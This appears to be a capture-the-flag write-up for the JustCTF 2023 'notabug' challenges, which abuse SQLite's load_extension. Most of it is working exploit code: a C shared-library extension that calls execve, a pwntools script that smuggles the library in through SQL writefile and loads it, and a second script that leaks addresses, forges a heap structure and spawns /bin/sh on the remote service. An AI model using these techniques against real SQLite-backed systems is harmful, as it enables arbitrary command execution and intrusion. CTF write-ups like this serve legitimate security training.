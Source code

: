 ```yaml
---
title: "[JustCTF-2023] notabug"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

r3kapig, 1st

# noabug

There is a new feature for sqlite that allows loading external libcs.

For challenge Notabug1, we can just load a external lib to execute arbitrary command.


exp.c:
```c
/* Add your header comment here */
#include <stdio.h>
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

/* Insert your extension code here */

#ifdef _WIN32
__declspec(dllexport)
#endif
/* TODO: Change the entry point name so that "extension" is replaced by
** text derived from the shared library filename as follows:  Copy every
** ASCII alphabetic character from the filename after the last "/" through
** the next following ".", converting each character to lowercase, and
** discarding the first three characters if they are "lib".
*/
int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  /* Insert here calls to
  **     sqlite3_create_function_v2(),
  **     sqlite3_create_collation_v2(),
  **     sqlite3_create_module_v2(), and/or
  **     sqlite3_vfs_register()
  ** to register the new features that your extension adds.
  */
  return rc;
}
void exp()
{
    execve("/tmp/readflag",0,0);
}
//select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');
//select Load_extension('/jailed/readflag','_start');
//select cast("\x01\x02\x03\x04" as text) ;
```

exp.py
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./pwn')
import binascii
p = remote("0.0.0.0",13337)
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
sla(b"> ",b"CREATE TABLE images(name TEXT, type TEXT, img BLOB);")
with open("./exp.so",'rb') as f:
    dt = f.read()
sla(b"> ",b"INSERT INTO images(name,type,img)")
dt = binascii.hexlify(dt)

print(dt.decode())

sla(b"> ",f"VALUES('icon','jpeg',cast(x'{dt.decode()}' as text));")
sla(b"> ",b"SELECT writefile('./exp.so',img) FROM images WHERE name='icon';")
sla(b"> ",b"select Load_extension('./exp','exp');")
p.interactive()
```

The above script works for the local one but not the remote one. My teammate found another way to compile it and make it work for the remote one.


# notabug2

We can also load libc.so.6 to execute arbitrary function but the parameters are fixed.

1.  I use puts to leak the PIE
2. Guess heap (1/0x2000) and build a fake structure on heap by function gets
3. system /bin/sh


```py
from pwn import *

context.log_level='debug'
p = remote("notabug2.nc.jctf.pro",1337)

ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)



sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');")
ru(": \n")
lic = u64(p.recvn(6).ljust(8,b'\x00'))
warning(hex(lic))
pie_base = lic - 0x1589a0

heap = 0x00005555556b0000-0x0000555555554000+pie_base # 1/0x2000

heap1 = 0x1150 + heap
heap2 = 0x103c0 + heap
# system_plt = (pie_base+0x2228C)
system_plt = pie_base + 0x10910
if pie_base > 0x600000000000:
    p.close()
warning(hex(pie_base)) #lic+0x28b8
sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','gets');")
p.sendline(p64(heap+0x11eb0)+b'a'*0x8+p64(pie_base+0x000000000009e0ad))
# raw_input()
dt = b"/bin/sh\0"+flat([0]*8)+ flat([0]*8)+ p64(system_plt)
sla(b"lite> ",f"select cast(x'{dt.hex()}' as text), ".encode()+b"Load_extension('"+p64(system_plt)[:6]+b"','/bin/sh');")
p.sendline(b"echo n132")
data = p.read(timeout=1)

if b'n132' in data:
    p.sendline("/jailed/readflag")
    p.read()
    input()
    p.interactive()
else:
    p.close()
```